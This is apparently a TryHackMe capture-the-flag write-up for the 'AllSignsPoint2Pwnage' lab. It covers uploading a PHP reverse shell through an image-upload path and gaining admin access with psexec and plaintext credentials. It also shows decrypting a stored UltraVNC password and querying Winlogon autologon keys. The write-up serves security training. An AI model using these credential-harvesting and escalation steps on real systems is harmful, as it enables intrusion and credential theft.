# AllSignsPoint2Pwnage — TryHackMe (write-up)

**Difficulty:** Medium
**Box:** AllSignsPoint2Pwnage (TryHackMe)
**Author:** dsec
**Date:** 2025-06-08

---

## TL;DR

### Enumeration found an image upload path. Uploaded a PHP reverse shell to `/images/shell3.php`. Used psexec with Administrator creds for an elevated shell. Extracted VNC password from UltraVNC config and decrypted it for VNC access.
---
## Target info

- Host: `10.10.21.178` / `10.10.30.105`
---
## Enumeration



















---
## Foothold

Uploaded PHP Ivan Sincek shell from revshells.com to the images directory:

```
10.10.21.178/images/shell3.php
```



Used psexec with Administrator credentials:

```
psexec -accepteula -nobanner -u administrator -p RCYCc3GIjM0v98HDVJ1KOuUm4xsWUxqZabeofbbpAss9KCKpYfs2rCi cmd.exe
```

---
## Post-exploitation

Checked UltraVNC config:

```
C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini
```



Checked Windows autologon registry:

```
REG QUERY "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Uploaded `vncpwd.exe` to decrypt the VNC password:



Decrypted password: `5upp0rt9`

Connected via VNC:

```bash
xtigervncviewer 10.10.30.105
```

`xtigervncviewer` allows clipboard use, unlike `xvncviewer`.

Used PowerShell to run commands as Administrator:

```powershell
$username = "Administrator"
$password = "RCYCc3GIjM0v98HDVJ1KOuUm4xsWUxqZabeofbbpAss9KCKpYfs2rCi"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword)
Start-Process cmd.exe -Credential $credential -ArgumentList "/c type C:\Users\Administrator\Desktop\admin_flag.txt"
```



---
## Lessons & takeaways

- UltraVNC configuration files (`ultravnc.ini`) store encrypted passwords that can be trivially decrypted with `vncpwd.exe`
- Use `xtigervncviewer` over `xvncviewer` for clipboard support
- PSExec with known credentials provides a quick elevated shell
- Always check Windows autologon registry keys for stored credentials
---
